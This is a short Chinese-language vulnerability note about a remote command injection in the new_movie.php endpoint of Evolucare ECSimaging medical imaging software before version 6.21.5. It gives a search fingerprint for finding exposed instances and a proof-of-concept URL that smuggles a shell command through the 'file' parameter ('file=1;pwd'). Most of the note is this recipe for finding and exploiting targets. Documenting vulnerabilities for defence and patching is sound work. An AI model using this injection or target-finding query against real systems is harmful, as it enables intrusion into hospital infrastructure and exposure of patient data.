 # Evolucare Ecsimaging new_movie.php 远程命令执行漏洞

## 漏洞描述

EVOLUCARE ECSimage是一款国外使用的医疗管理系统，研究发现其new_movie.php接口中存在命令注入漏洞,攻击者可利用该漏洞获取系统敏感信息等.

## 漏洞影响

```
EVOLUCARE Evolucare Ecsimaging 版本< 6.21.5
```

## 网络测绘

```
body="ECSimaging"
```

## 漏洞复现

登录页面

![](./images/202205241447357.png)

验证POC

```
/new_movie.php?studyUID=1&start=2&end=2&file=1;pwd
```

![](./images/202205241447391.png)